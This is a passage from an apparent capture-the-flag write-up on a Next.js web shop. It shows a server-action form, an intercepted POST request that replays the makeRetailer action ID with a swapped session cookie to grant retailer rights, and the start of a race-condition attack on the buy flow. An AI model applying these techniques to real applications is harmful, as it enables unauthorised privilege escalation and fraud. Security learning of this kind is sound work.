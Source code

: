 ```javascript
import { makeRetailer } from "../db";

export default async function retailer(){
  return (
    <form action={makeRetailer}>
      <div className="d-flex align-items-center justify-content-between mt-4 mb-0">
        <button type="submit" className="btn btn-primary">
          Become retailer
        </button>
      </div>
    </form>
  );
}
``` 
![screenshot become a retailer page](become_retailer_page.png "Become a retailer page")

By hitting the button and intercepting the request we can see that the actionId of the `makeRetailer()` function is *ACTION_ID_758c88ac2c11c3f9c5eac5df2912014fc02de432*.   

```
POST / HTTP/2
Host: localhost:3000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysAXQao7KYBIv9rix
Cookie: token=ae12dfa629808143b59cacf675b68556
Content-Length: 182

------WebKitFormBoundarysAXQao7KYBIv9rix
Content-Disposition: form-data; name="$ACTION_ID_758c88ac2c11c3f9c5eac5df2912014fc02de432"


------WebKitFormBoundarysAXQao7KYBIv9rix--
```

We can send this request to the real target web shop to make our user a retailer. 
It is important that we replace the cookie token with the actual cookie to change the right user.
Now we can sell and buy items!

#### Pitfall: 
Now that we have access to one of the database function we might decide that the easiest way to get the bag would be to just use the `addItem(itemName: string)` or `setMoney(amount: number)` functions in the same way. The problem here is, that these functions need an input and the application does not accept text input for post requests (compare middleware.ts). However, other input types, like for e.g. form-data do not match the function declaration, so we can not use those functions.

#### Step 3: Race condition attack
After all this work we still don't have enough money to buy the flag bag. However with the ability to buy and sell items we can perform a race condition attack. 
In the source code we can see that on buying an item the item is added to the user account before the money is removed. 

